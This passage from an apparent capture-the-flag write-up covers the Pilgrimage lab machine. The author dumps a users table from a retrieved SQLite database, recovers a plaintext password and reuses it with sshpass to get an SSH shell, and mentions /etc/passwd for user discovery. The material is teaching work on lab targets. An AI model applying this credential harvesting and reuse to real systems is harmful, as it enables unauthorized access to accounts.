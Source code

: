 

### Database Enumeration

I'll open the database with `sqlite3`:



    oxdf@hacky$ sqlite3 pilgrimage.sqlite 
    SQLite version 3.37.2 2022-01-06 13:25:41
    Enter ".help" for usage hints.
    sqlite>



There are two tables:



    sqlite> .tables
    images  users



The `images` table doesn't look interesting, but the `users` table does:



    sqlite> .schema users
    CREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL);
    sqlite> .schema images
    CREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL);



There's only a single user (mine must have been cleaned out):



    sqlite> select * from users;
    emily|abigchonkyboi123



### SSH

emily is a user on Pilgrimage (from the `/etc/passwd` file). This
password works to connect over SSH:



    oxdf@hacky$ sshpass -p abigchonkyboi123 ssh emily@pilgrimage.htb
    Warning: Permanently added 'pilgrimage.htb' (ED25519) to the list of known hosts.
    Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    emily@pilgrimage:~$ 

